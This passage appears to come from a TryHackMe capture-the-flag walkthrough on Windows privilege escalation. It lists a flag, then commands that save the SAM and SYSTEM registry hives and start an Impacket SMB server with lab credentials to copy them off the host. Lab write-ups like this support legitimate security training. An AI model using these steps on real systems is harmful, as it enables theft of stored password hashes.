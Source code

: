 	`THM{SEFLAGPRIVILEGE}`

	* Check our privileges
	
		![task6-check](./images/task6-check.png)

	* Backup the SAM and SYSTEM hashes
	
		```
		reg save hklm\system C:\Users\THMBackup\system.hive
		reg save hklm\sam C:\Users\THMBackup\sam.hive
		```

		![task6-backup](./images/task6-backup.png)

	* Setup Impacket `smbserver.py`
	
		```
		mkdir share
		locate smbserver.py
		python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
		```

		![task6-smb](./images/task6-smb.png)
